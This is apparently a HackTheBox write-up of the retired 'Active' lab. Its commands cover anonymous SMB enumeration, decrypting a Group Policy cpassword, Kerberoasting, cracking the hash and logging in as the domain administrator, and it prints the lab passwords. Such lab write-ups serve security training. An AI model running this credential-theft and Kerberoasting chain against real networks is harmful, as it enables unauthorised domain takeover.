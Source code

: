 ```yaml
---
layout: post
title: Active
date: 2025-07-15 00:34:00 +0800
categories: [HackTheBox, Easy]
tags: [Vulnerability Assessment, Enterprise Network, Default Credentials, Weak Permissions]
author: klein
image:
  path: /images/images-active/image_10.png
  
---
```


Lately, I've found Guided Mode to be really useful when solving retired boxes on HackTheBox. This time I am going to do the same and walk through the box in this Guided manner.

###### How many SMB shares are shared by the target?

I used Netexec to find the answer to this question. To save time, I also saved the target IP as a variable that I can use to move more quickly.

```bash
nxc smb $IP --shares -u '' -p ''
```

![b](/images/images-active/image_01.png)


To answer this question let's run an Nmap scan.


###### What is the name of the share that allows anonymous read access?

This can be answered based on the previous command output.


###### Which file has encrypted account credentials in it?

Let's connect to the SMB share.

```bash
smbclient //$IP/Replication
```

By enumerating the share (there was a lot to enumerate) I found many files. By reviewing them one by one, I discovered that the Groups.xml file holds the encrypted account credentials.

![b](/images/images-active/image_02.png)

###### What is the decrypted password for the SVC_TGS account?

By doing a little bit of thinking, I found out that this is the historically famous cpassword string, which is obfuscated using a known static AES key. There is a tool to decrypt it, named gpp-decrypt.

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

###### Submit the flag located on the security user's desktop.

![b](/images/images-active/image_03.png)

Now that we have a set of credentials at the time of writing two quick options come to my mind immediately: 

- Pass Attacks
- Dumping credentials remotely using the tool Secretsdump.

```bash
nxc smb $IP -u SVC_TGS -p 'GPPstillStandingStrong2k18' 
```

![b](/images/images-active/image_05.png)

I connected to the user's share and got the first flag.


```bash
smbclient -U 'SVC_TGS' //$IP/Users  
```

![b](/images/images-active/image_06.png)

###### Which service account on Active is vulnerable to Kerberoasting?

Do not forget to add the domain name to the hosts (from the Nmap scan) file in order for the next command to work.

```bash
sudo GetUserSPNs.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip $IP -request
```

![b](/images/images-active/image_07.png)


###### What is the plaintext password for the administrator account?

Copied the hash to a text file and used John The Ripper to crack the hash.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![b](/images/images-active/image_08.png)

Let's use a Pass the Password attack.

```bash
nxc smb $IP -u Administrator -p 'Ticketmaster1968' --shares
```

Successfully Pwn3d! 

![b](/images/images-active/image_09.png)

The only thing left to do would be to connect via SMB and get the root flag.